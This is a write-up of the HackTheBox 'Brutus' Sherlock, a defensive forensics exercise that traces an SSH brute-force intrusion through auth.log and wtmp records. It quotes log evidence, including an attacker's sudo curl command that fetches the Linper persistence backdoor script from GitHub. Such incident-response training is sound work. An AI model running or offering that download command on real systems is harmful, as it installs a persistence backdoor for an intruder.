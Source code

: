 # HackTheBox Sherlocks - Brutus

![Brutus Logo](image.png)

https://app.hackthebox.com/sherlocks/Brutus

## Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?

First, what is a brute-force attack: 

A brute-force attack is a trial-and-error method used to obtain information such as a user password or personal identification number (PIN). In a brute-force attack, automated software is used to generate a large number of consecutive guesses as to the value of the desired data. This method is often used by attackers to crack passwords, encryption keys, or find hidden web pages.

So, we need to find a repetition of failed athentification and si wich ip is used to perform this attack

In auth.log 
```log
Mar  6 06:31:33 ip-172-31-35-28 sshd[2327]: Failed password for invalid user admin from 65.2.161.68 port 46392 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2331]: Failed password for invalid user admin from 65.2.161.68 port 46436 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2332]: Failed password for invalid user admin from 65.2.161.68 port 46444 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2335]: Failed password for invalid user admin from 65.2.161.68 port 46460 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2337]: Failed password for invalid user admin from 65.2.161.68 port 46498 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2334]: Failed password for invalid user admin from 65.2.161.68 port 46454 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2338]: Failed password for backup from 65.2.161.68 port 46512 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2336]: Failed password for backup from 65.2.161.68 port 46468 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2330]: Failed password for invalid user admin from 65.2.161.68 port 46422 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2328]: Failed password for invalid user admin from 65.2.161.68 port 46390 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2329]: Failed password for invalid user admin from 65.2.161.68 port 46414 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2333]: Failed password for invalid user admin from 65.2.161.68 port 46452 ssh2
```
As we can see, the `65.2.161.68` Ip have tried at multiple times to connect to the ssh server as admin and backup user.

> Answer : 65.2.161.68

## The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

At the line 281 we see for the first time "Accepted password". 
```log
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2

```
We understand that the attacker has found the root password.

> Answer : root

## Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?

We know that the attacker ip is : `65.2.161.68`.
We know that the first account that the attacker own is : `root`

To see when the attacker has etablished a connection we use the `utmpdumputmpdum` tool.
```log
00505] [tty1] [        ] [tty1        ] [                    ] [0.0.0.0        ] [2024-03-06T06:17:27,469940+00:00]
[6] [00505] [tty1] [LOGIN   ] [tty1        ] [                    ] [0.0.0.0        ] [2024-03-06T06:17:27,469940+00:00]
[1] [00053] [~~  ] [runlevel] [~           ] [6.2.0-1018-aws      ] [0.0.0.0        ] [2024-03-06T06:17:29,538024+00:00]
[7] [01583] [ts/0] [root    ] [pts/0       ] [203.101.190.9       ] [203.101.190.9  ] [2024-03-06T06:19:55,151913+00:00]
[7] [02549] [ts/1] [root    ] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:32:45,387923+00:00]
[8] [02491] [    ] [        ] [pts/1       ] [                    ] [0.0.0.0        ] [2024-03-06T06:37:24,590579+00:00]
```

We see that the first root connection with the attacker ip is at `2024-03-06T06:32:45`.

> Answer : 2024-03-06 06:32:45

## SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

Go back to auth.log file.
At the line 324 : 

```log
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```
The first session used by the attacker is the session 37.

> Answer : 37 

## The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

in auth.log :
```log
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
```
 
> Answer : cyberjunkie

## What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

[Mitre site](https://attack.mitre.org/techniques/T1136/)

> Answer: T1136.001 

## What time did the attacker's first SSH session end according to auth.log?

In the auth.log file (line 356), we see that that the first root session is closed at 06:37:24

```log
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Disconnected from user root 65.2.161.68 port 53184
```
> Answer : 2024-03-06 06:37:24

## The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

At the line 375, we see that the attacker using their new user to download a persistent backdoor called Linper :
```log 
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

```
> Answer : /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
